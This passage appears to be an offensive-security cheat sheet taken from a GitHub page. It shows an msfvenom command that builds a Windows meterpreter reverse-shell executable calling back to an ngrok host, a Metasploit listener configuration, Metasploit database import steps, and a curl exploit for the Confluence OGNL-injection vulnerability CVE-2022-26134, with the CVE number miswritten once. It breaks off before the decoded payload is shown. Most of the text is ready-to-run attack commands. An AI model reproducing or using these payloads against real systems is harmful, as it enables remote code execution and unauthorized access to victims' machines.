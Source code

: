 Create malicious payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19631 -f exe > payload.exe
```
Start listener:

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 0.0.0.0 set 
LPORT 9999 
exploit
```

Ingest Other Tools' Output Files:

```
# Start database
$ sudo systemctl start postgresql

# Initialize Metasploit database
$ sudo msfdb init

# Start msfconsole
$ msfconsole -q
msf6 >

# Help menu
msf6 > db_import -h

# Import other tool's output
msf6 > db_import ~/nmap_scan.xml

[*] Importing NMAP XML data
[*] Successfully imported  /home/kali/nmap_scan.xml
```

# Confluence CVE-2022-26134:

CVE-2022-26314 is an unauthenticated and remote OGNL injection vulnerability resulting in code execution in the context of the Confluence server (typically the confluence user on Linux installations). Given the nature of the vulnerability, internet-facing Confluence servers are at very high risk.

As stated, the vulnerability is an OGNL injection vulnerability affecting the HTTP server. The OGNL payload is placed in the URI of an HTTP request. Any type of HTTP method appears to work, whether valid (GET, POST, PUT, etc) or invalid (e.g. “BALH”). In its simplest form, an exploit abusing the vulnerability looks like this:

```
curl -v http://10.0.0.28:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/r7%22%29%7D/
```

Above, the exploit is URL-encoded. The exploit encompasses everything from the start of the content location to the last instance of /. Decoded it looks like this:
